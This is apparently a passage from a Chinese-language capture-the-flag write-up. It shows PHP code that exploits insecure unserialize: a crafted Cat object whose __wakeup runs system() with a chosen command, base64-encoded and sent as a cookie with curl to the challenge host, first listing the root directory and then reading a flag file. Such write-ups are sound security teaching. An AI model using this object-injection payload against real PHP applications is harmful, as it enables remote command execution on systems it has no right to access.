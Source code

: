 ```php
        public $magic;
        public $spell;
        function __construct()
        {
            $this->magic = new Caster();
            $this->spell = 'ls /';
        }
        function __wakeup()
        {
            echo "Cat Wakeup!\n";
            $this->magic->cast($this->spell);
        }
    }
    $cat = base64_encode(serialize(new Cat()));
    system("curl http://h4ck3r.quest:8602/ --cookie 'cat=".$cat."'");
?>
```
![](assets/3-3.png)
得知 flag 檔案為根目錄中的 flag_23907376917516c8 檔案\
最後將 ```$this->spell``` 改為 ```cat /flag_23907376917516c8```，印出 flag
```php
<?php
    class Caster
    {
        public $cast_func = 'system';
        function cast($val)
        {
            return ($this->cast_func)($val);
        }
    }
    class Cat
    {
        public $magic;
        public $spell;
        function __construct()
        {
            $this->magic = new Caster();
            $this->spell = 'cat /flag_23907376917516c8';
        }
```